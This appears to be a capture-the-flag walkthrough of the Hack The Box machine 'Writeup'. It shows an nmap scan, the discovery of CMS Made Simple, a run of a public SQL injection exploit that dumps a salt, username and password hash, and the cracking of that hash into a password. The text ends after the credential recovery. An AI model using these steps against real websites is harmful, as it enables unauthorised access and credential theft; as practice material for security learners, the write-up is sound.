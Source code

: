 <center><h1>Writeup</h1></center>
<br>
<center><h3>Summary</h3></center>
<br>

<br><br>
First start with an Nmap scan
```
# Nmap 7.70 scan initiated Sat Jun  8 15:42:31 2019 as: nmap -sV -sC -T4 10.10.10.138
Nmap scan report for 10.10.10.138
Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 dd:53:10:70:0b:d0:47:0a:e2:7e:4a:b6:42:98:23:c7 (RSA)
|   256 37:2e:14:68:ae:b9:c2:34:2b:6e:d9:92:bc:bf:bd:28 (ECDSA)
|_  256 93:ea:a8:40:42:c1:a8:33:85:b3:56:00:62:1c:a0:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-robots.txt: 1 disallowed entry
|_/writeup/
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Nothing here yet.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun  8 15:43:20 2019 -- 1 IP address (1 host up) scanned in 49.10 seconds
```
Only a couple ports open. I can already see that port 80 has a directory <b>/writeup</b>. Navigating to the page we see a very basic website that does not give us much to work from.

<center><img src="/htb/writeup/web.png"></center>
<br>
If you take a look at the web page source code then you should see that the website is running <b> CMS Made Simple</b>.

<center><img src="/htb/writeup/cms.png"></center>
<br>
Using <b>Searchsploit</b> we can find a vulnerability that works for us. I chose this one because it was the most recent one.
```
CMS Made Simple < 2.2.10 - SQL Injection                                                                              | exploits/php/webapps/46635.py
```
I download the exploit from the exploit database *[here](https://www.exploit-db.com/exploits/46635)*. Then I execute the script and wait until it finishes. Eventually we see some credentials.
```
# python CSM_SQL_Injection.py -u http://10.10.10.138/writeup
[+] Salt for password found: 5a599ef579066807
[+] Username found: jkr
[+] Email found: jkr@writeup.htb
[+] Password found: 62def4866937f08cc13bab43bb14e6f7
```
So now we have a password hash and a salt. We can crack this by using and online password cracker. I used *[this](https://www.md5online.org/md5-decrypt.html)* one. After removing the salt, we get a passwor dof <b>raykayjay9</b>.

<center><img src="/htb/writeup/decrypt.png"></center>
</br>
